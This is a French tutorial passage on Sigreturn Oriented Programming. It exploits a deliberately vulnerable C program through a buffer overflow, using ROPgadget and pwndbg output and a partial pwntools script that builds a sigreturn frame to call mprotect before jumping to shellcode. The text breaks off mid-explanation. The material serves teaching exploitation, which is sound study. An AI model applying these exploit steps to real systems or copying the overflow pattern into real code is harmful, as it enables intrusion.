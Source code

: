 # Sigreturn Oriented Programming 

Hello à tous :) Dans cet article je vais vous montrer une technique de ROP qui à l'aventage de nécessiter très peu de gadget (deux seulement en fait ;) )

Avant de commencer la ptite pub habituelle:

Follow twitter @QuasarPwn

Serveur Discord: [Mon serveur discord](https://discord.gg/2bwhtP7)

Prenons un petit programme pour illustrer la technique:

```c
#include <stdio.h>
#include <stdlib.h>

void syscall(){
       __asm__("syscall; ret;");
}

void rax(){
       __asm__("movl $0xf, %eax; ret;");
}

int main(){
       char buffer[100];
       printf("Buffer: %p.\n", buffer);
       read(0, buffer, 5000);
       return 0;
}
```

Comme vous le devinez surement les gadget dont on aura besoin sont ```syscall; ret``` et ```mov eax,0xf; ret``` !
Maintenant passons à l'explication de comment l'exploitation se fera !

1. Tout d'abord on va récuperer les addresse de nos gadgets.
2. Ensuite on va leak l'addresse de buffer, pour le coup notre programme ne contient aucun leak (format string ou autre) mais le programme printf bien gentiment l'addresse de buffer !
3. On va rendre buffer executable, on va créer une "trame de signal" qui pourra faire le syscall MPROTECT sur l'addresse de buffer (vous allez voir pas d'inquietude si vous ne comprenez pas ! ) 
4. On me un shellcode dans buffer et enfin on saute sur ce shellcode !

D'abord compilons notre programme:
```quasar@pwn:~/Bureau/pwn$ gcc -o sop sop.c -no-pie```

Ensuite on va utiliser ROPgadget pour récuperer nos gadgets:
```
quasar@pwn:~/Bureau/pwn$ ROPgadget --binary sop
Gadgets information
============================================================
0x0000000000400562 : adc byte ptr [rax], ah ; jmp rax
0x0000000000400561 : adc byte ptr [rax], spl ; jmp rax
0x000000000040055e : adc dword ptr [rbp - 0x41], ebx ; adc byte ptr [rax], spl ; jmp rax
0x0000000000400618 : add bl, al ; nop ; pop rbp ; ret
0x00000000004006ef : add bl, dh ; ret
0x0000000000400616 : add byte ptr [rax], al ; add bl, al ; nop ; pop rbp ; ret
0x00000000004006ed : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004006eb : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040056c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004006ec : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x000000000040049b : add byte ptr [rax], al ; add rsp, 8 ; ret
0x000000000040056e : add byte ptr [rax], al ; pop rbp ; ret
0x0000000000400617 : add byte ptr [rax], al ; ret
0x00000000004005d8 : add byte ptr [rcx], al ; ret
0x00000000004005d4 : add eax, 0x200a6e ; add ebx, esi ; ret
0x0000000000400678 : add eax, 0xfffe42e8 ; dec ecx ; ret
0x00000000004005d9 : add ebx, esi ; ret
0x000000000040049e : add esp, 8 ; ret
0x000000000040049d : add rsp, 8 ; ret
0x00000000004005d7 : and byte ptr [rax], al ; add ebx, esi ; ret
0x00000000004005fe : call rax
0x000000000040073b : call rsp
0x000000000040067d : dec ecx ; ret
0x00000000004006cc : fmul qword ptr [rax - 0x7d] ; ret
0x0000000000400613 : in eax, 0xb8 ; sldt word ptr [rax] ; add bl, al ; nop ; pop rbp ; ret
0x00000000004005f9 : int1 ; push rbp ; mov rbp, rsp ; call rax
0x000000000040055d : je 0x400578 ; pop rbp ; mov edi, 0x601048 ; jmp rax
0x00000000004005ab : je 0x4005c0 ; pop rbp ; mov edi, 0x601048 ; jmp rax
0x00000000004005f8 : je 0x4005f1 ; push rbp ; mov rbp, rsp ; call rax
0x0000000000400565 : jmp rax
0x000000000040067e : leave ; ret
0x00000000004005d3 : mov byte ptr [rip + 0x200a6e], 1 ; ret
0x0000000000400614 : mov eax, 0xf ; ret
0x00000000004005fc : mov ebp, esp ; call rax
0x0000000000400612 : mov ebp, esp ; mov eax, 0xf ; ret
0x0000000000400608 : mov ebp, esp ; syscall
0x0000000000400560 : mov edi, 0x601048 ; jmp rax
0x00000000004005fb : mov rbp, rsp ; call rax
0x0000000000400611 : mov rbp, rsp ; mov eax, 0xf ; ret
0x0000000000400607 : mov rbp, rsp ; syscall
0x0000000000400499 : movsxd rax, dword ptr [rax] ; add byte ptr [rax], al ; add rsp, 8 ; ret
0x000000000040060d : nop ; pop rbp ; ret
0x0000000000400568 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x00000000004006e8 : nop dword ptr [rax + rax] ; ret
0x00000000004005b5 : nop dword ptr [rax] ; pop rbp ; ret
0x00000000004005d6 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; ret
0x00000000004005ac : or ebx, dword ptr [rbp - 0x41] ; adc byte ptr [rax], spl ; jmp rax
0x00000000004005d5 : outsb dx, byte ptr [rsi] ; or ah, byte ptr [rax] ; add byte ptr [rcx], al ; ret
0x00000000004006dc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006de : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006e0 : pop r14 ; pop r15 ; ret
0x00000000004006e2 : pop r15 ; ret
0x00000000004005d2 : pop rbp ; mov byte ptr [rip + 0x200a6e], 1 ; ret
0x000000000040055f : pop rbp ; mov edi, 0x601048 ; jmp rax
0x00000000004006db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006df : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400570 : pop rbp ; ret
0x00000000004006e3 : pop rdi ; ret
0x00000000004006e1 : pop rsi ; pop r15 ; ret
0x00000000004006dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005fa : push rbp ; mov rbp, rsp ; call rax
0x0000000000400610 : push rbp ; mov rbp, rsp ; mov eax, 0xf ; ret
0x0000000000400606 : push rbp ; mov rbp, rsp ; syscall
0x00000000004004a1 : ret
0x00000000004002ba : ret 0xba
0x00000000004005aa : sal byte ptr [rbx + rcx + 0x5d], 0xbf ; adc byte ptr [rax], spl ; jmp rax
0x000000000040055c : sal byte ptr [rcx + rdx + 0x5d], 0xbf ; adc byte ptr [rax], spl ; jmp rax
0x00000000004005f7 : sal byte ptr [rcx + rsi*8 + 0x55], 0x48 ; mov ebp, esp ; call rax
0x0000000000400615 : sldt word ptr [rax] ; add bl, al ; nop ; pop rbp ; ret
0x00000000004006f5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004006f4 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040060a : syscall
0x000000000040056a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004006ea : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000004005f6 : test eax, eax ; je 0x4005f3 ; push rbp ; mov rbp, rsp ; call rax
0x00000000004005f5 : test rax, rax ; je 0x4005f4 ; push rbp ; mov rbp, rsp ; call rax

Unique gadgets found: 76

```

Le gadget qui met 15 (numéro syscall en 64 bits pour sigreturn) dans eax ```0x0000000000400614 : mov eax, 0xf ; ret```
Le ```0x000000000040060a : syscall``` n'a pas l'air clean .. Ou est notre ret ? Pour eviter tout problème on va use pwndbg pour récuperer l'addresse de ce gadget:

```
pwndbg> disass syscall
Dump of assembler code for function syscall:
   0x0000000000400606 <+0>:	push   rbp
   0x0000000000400607 <+1>:	mov    rbp,rsp
   0x000000000040060a <+4>:	syscall 
   0x000000000040060c <+6>:	ret    
   0x000000000040060d <+7>:	nop
   0x000000000040060e <+8>:	pop    rbp
   0x000000000040060f <+9>:	ret    
End of assembler dump.
pwndbg> 

```

Finalement l'addresse etait totalement clean deuxième gadget: ```0x000000000040060a : syscall```
Deuxième chose, on a toujours pas calculer notre offset :') :
```
quasar@pwn:~/Bureau/pwn$ python -c 'print "a"*120' | ./sop
Buffer: 0x7ffe2df2bc70.
Buffer: 0x7ffe2df2bc70.
quasar@pwn:~/Bureau/pwn$ python -c 'print "a"*121' | ./sop
Buffer: 0x7ffd9b05aa40.
Erreur de segmentation (core dumped)
quasar@pwn:~/Bureau/pwn$ 
```
on aurait pu faire de façon plus propre mais osef ¯\_(ツ)_/¯

On peux commencer à ecrire notre exploit:
```python 
from pwn import *

p = p("./sop")

sigreturn_num_rax = 0x0000000000400614
syscall = 0x000000000040060a 

pad = 120
```

Prochaine étape leak l'addresse de Buffer, easy ! 

```python 
p.recvuntil("0x")
leak = int(p.recvuntil(".")[:-1], 16)
log.info("Leak: " + str(hex(leak)))
```

Parfait ! 
Faisons un premier payload:
```python
payload = "A"*pad
payload += p64(sigreturn_num_rax)
payload += p64(syscall)
```

Passons au chose serieux ! Il faut rendre l'addresse de buffer executable, pour cela créons un trame de signal comme celà, merci pwntools !

```python
trame = SigreturnFrame(kernel="amd64") 
trame.rax = 10 # 
trame.rdi = leak
trame.rsi = 2000
trame.rdx = 7
trame.rsp = leak + len(payload) + 248
trame.rip = syscall
```

Maintenant que vous êtes tous en mode "Hein ? C koi ça ? " (fin à part sui vous êtes là juste pour verifier que je raconte pas de la merde et que vous maitriser dejas la technique )




